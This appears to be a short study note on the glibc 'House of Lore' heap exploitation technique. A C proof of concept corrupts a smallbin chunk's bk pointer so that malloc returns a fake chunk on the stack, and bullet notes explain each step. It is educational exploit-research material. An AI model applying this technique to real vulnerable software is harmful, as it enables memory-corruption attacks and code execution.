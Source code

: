 # House of Lore
> LongChampion, 18/03/2020

This attack ideal is similar to *fastbin_dup_into_stack*, but it is used for smallbin.
```
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *Victim = malloc(0x100 - 8);
    void *Barier = malloc(0x100 - 8);
    struct Chunk Fake, NextFake;

    free(Victim);
    struct Chunk *Real = (struct Chunk *) (Victim - 0x10);

    void *Large = malloc(0x200 - 8);

    Real->bk = &Fake;
    Fake.fd = Real;
    Fake.bk = &NextFake;
    NextFake.fd = &Fake;

    Victim = malloc(0x100 - 8);
    void *STACK = malloc(0x100 - 8);
}
```
There are some note:
- Chunk `Barier` is used to prevent `Victim` from becoming the top_chunk (which we can't free)
- After be freed, `Victim` is located in unsorted_bin, so we call `malloc` with request size larger than size of `Victim` to push `Victim` into smallbin.
- **All modify at `Victim` must happen after we pushed it into smallbin.**
- Chunk `Fake` and chunk `NextFake` can be located anywhere, it doens't need to be adjacent or have real size same as `Victim`, but their address should be aligned as well.
- `STACK` will point to `Fake.fd`, not `Fake`.
- This attack it NOT work against largebin because of size checking.
